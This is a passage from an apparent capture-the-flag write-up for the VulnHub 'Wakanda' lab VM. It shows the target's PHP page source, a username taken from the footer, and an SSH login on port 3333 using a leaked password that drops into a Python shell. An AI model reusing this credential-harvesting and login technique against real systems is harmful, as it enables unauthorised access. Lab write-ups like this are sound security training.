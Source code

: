 ```php+HTML
          <?php
            if (isset($_GET['lang']))
          {
          echo $message;
          }
          else
          {
            ?>

            Next opening of the largest vibranium market. The products come directly from the wakanda. stay tuned!
            <?php
          }
?>
        </p>
        <p class="lead">
          <a href="#" class="btn btn-lg btn-secondary">Learn more</a>
        </p>
      </main>

      <footer class="mastfoot mt-auto">
        <div class="inner">
          <p>Made by<a href="#">@mamadou</a></p>
        </div>
      </footer>
    </div>



  

</body></html>
```

There is a password given. If you look also at the footer of the site we also mention a name: `mamadou`.

### Getting flag1.txt

Looking back to the NMAP scan we see also an open SSH port there. Let's try these credentials:
`mamadou:Niamey4Ever227!!!`.

```shell
root@kali:~/vulnhub/wakanda# ssh -p 3333 mamadou@10.20.20.128
mamadou@10.20.20.128's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Aug  3 15:53:29 2018 from 192.168.56.1
Python 2.7.9 (default, Jun 29 2016, 13:08:31) 
[GCC 4.9.2] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 
```
